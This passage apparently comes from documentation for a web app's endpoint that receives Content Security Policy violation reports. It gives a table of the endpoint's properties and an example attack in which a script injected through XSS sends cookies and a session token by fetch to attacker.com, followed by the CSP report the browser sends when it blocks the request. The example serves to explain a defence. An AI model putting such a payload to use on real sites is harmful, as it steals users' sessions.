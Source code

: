 ### 3. Endpoint Characteristics

| Property            | Value          | Rationale                             |
| ------------------- | -------------- | ------------------------------------- |
| **Method**          | POST           | CSP reports are POST requests         |
| **Rate Limiting**   | Exempt         | Security reports must not be blocked  |
| **CSRF Protection** | Exempt         | Browser sends without CSRF token      |
| **Authentication**  | None required  | Public endpoint for browser reporting |
| **Response Code**   | 204 No Content | Browser doesn't need response data    |
| **Error Handling**  | Always 204     | Prevent browser retry loops           |

---

## How It Works

### Attack Scenario Example

**1. Attacker injects malicious script:**

```html
<!-- XSS injection in user input -->
<div class="comment">
  <script>
    fetch("https://attacker.com/steal", {
      method: "POST",
      body: JSON.stringify({
        cookies: document.cookie,
        session: localStorage.getItem("session"),
      }),
    });
  </script>
</div>
```

**2. Browser blocks and reports:**

```json
{
  "csp-report": {
    "document-uri": "https://yourapp.com/trips/123",
    "violated-directive": "connect-src 'self'",
    "blocked-uri": "https://attacker.com/steal",
    "source-file": "https://yourapp.com/trips/123",
    "line-number": 42,
    "status-code": 200
  }
}
```
